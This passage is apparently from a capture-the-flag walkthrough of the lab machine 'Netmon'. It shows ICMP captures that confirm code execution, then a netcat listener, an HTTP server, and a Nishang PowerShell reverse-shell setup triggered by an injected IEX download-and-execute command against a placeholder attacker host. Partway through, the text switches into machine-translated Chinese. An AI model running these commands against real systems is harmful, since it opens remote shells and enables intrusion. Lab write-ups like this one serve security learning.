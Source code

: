 I see ICMPpackets in tcpdump:

```
➜  Netmon tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
14:40:50.173021 IP 10.10.10.152 > kali: ICMP echo request, id 1, seq 326, length 40
14:40:50.173030 IP kali > 10.10.10.152: ICMP echo reply, id 1, seq 326, length 40
14:40:51.311428 IP 10.10.10.152 > kali: ICMP echo request, id 1, seq 329, length 40
14:40:51.311441 IP kali > 10.10.10.152: ICMP echo reply, id 1, seq 329, length 40
14:40:52.320735 IP 10.10.10.152 > kali: ICMP echo request, id 1, seq 330, length 40
14:40:52.320758 IP kali > 10.10.10.152: ICMP echo reply, id 1, seq 330, length 40
14:40:53.405802 IP 10.10.10.152 > kali: ICMP echo request, id 1, seq 331, length 40
14:41:22.282099 IP 10.10.10.152 > kali: ICMP echo request, id 1, seq 353, length 40
14:41:22.282143 IP kali > 10.10.10.152: ICMP echo reply, id 1, seq 353, length 40
14:41:23.298609 IP 10.10.10.152 > kali: ICMP echo request, id 1, seq 354, length 40
14:41:23.298655 IP kali > 10.10.10.152: ICMP echo reply, id 1, seq 354, length 40
14:41:24.316551 IP 10.10.10.152 > kali: ICMP echo request, id 1, seq 355, length 40
14:41:24.316565 IP kali > 10.10.10.152: ICMP echo reply, id 1, seq 355, length 40
14:41:30.007785 IP 10.10.10.152 > kali: ICMP echo request, id 1, seq 362, length 40
14:41:30.007800 IP kali > 10.10.10.152: ICMP echo reply, id 1, seq 362, length 40
```

Now we know we have code execution. We then prepare to get our shell. We set up our listener:

```
**nc -nlvp 9001**
```

We set up our SimpleHTTPServer(default is port 8000) where the PowerShell script will be downloaded which will connect to our listener. This will serve all the files under the directory where we ran the command above at http://attackerip:8000.

```
**python3 -m http.server** 
```

The file being served is a PowerShell script from [霓裳](https://github.com/samratashok/nishang/tree/master/Shells)。我使用了 Invoke-PowerShellTcp.ps1。我们在最底部附加了我们想要的命令(阅读脚本的内容，您就会理解它的语法)。将此添加到脚本的底部:

```
**Invoke-PowerShellTcp -Reverse -IPAddress attackerip -Port 9001**
```

我只是把命令从 ping 改为让它下载我们的. ps1 文件，然后执行它。我把文件名改成了 rev.ps1

```
echo huhu > C:\Users\Public\test.txt; type C:\Users\Public\test.txt ; IEX(New-Object Net.WebClient).downloadString('http://attackerip:8000/Invoke-PowerShellTcp.ps1')
```
